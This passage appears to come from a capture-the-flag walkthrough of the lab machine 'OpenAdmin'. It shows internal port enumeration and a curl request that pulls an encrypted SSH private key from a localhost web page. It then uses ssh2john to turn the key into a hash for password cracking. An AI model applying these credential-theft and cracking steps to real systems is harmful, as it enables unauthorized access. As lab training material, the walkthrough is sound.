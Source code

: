 A look at the network reveals more ports open internally:

```text
jimmy@openadmin:~$ netstat -a
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN     
tcp        0      0 localhost:mysql         0.0.0.0:*               LISTEN     
tcp        0      0 localhost:52846         0.0.0.0:*               LISTEN     
tcp        0      0 openadmin:ssh           10.10.15.5:33860        ESTABLISHED
tcp6       0      0 [::]:ssh                [::]:*                  LISTEN     
tcp6       0      0 [::]:http               [::]:*                  LISTEN     
tcp6       0      0 openadmin:http          10.10.15.5:52450        TIME_WAIT  
udp        0      0 localhost:domain        0.0.0.0:*   
```

Here we see port 52846 is open on localhost. So we can assume we are supposed to access this internal page on that port. Let's try it:

```text
jimmy@openadmin:~$ curl localhost:52846/main.php
<pre>-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
<SNIP>
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
</pre><html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

We have the private RSA key for Joanna, but it's encrypted so we'll need to find the password. We can use JohnTheRipper for this, just copy the key to a file and convert to correct format:

```text
┌──(root💀kali)-[~/htb/openadmin]
└─# /usr/share/john/ssh2john.py rsa_id > joanna.john

┌──(root💀kali)-[~/htb/openadmin]
└─# cat joanna.john 
rsa_id:$sshng$1$16$2AF25344B8391A25A9B318F3FD767D6D$1200$906d14608706c9ac6ea6342a692d9ed47a9b87044b94d72d5b61df25e68a5235991f8bac883f40b539c829550ea5937c69dfd2b4c589f8c910e4c9c030982541e51b4717013fafbe1e1db9d6331c83cca061cc7550c0f4dd98da46ec1c7f460e4a135b6f1f04bafaf66a08db17ecad8a60f25a1a095d4f94a530f9f0bf9222c6736a5f54f1ff93c6182af4ad8a407044eb16ae6cd2a10c92acffa6095441ed63215b6126ed62de25b2803233cc3ea533d56b72d15a7
```
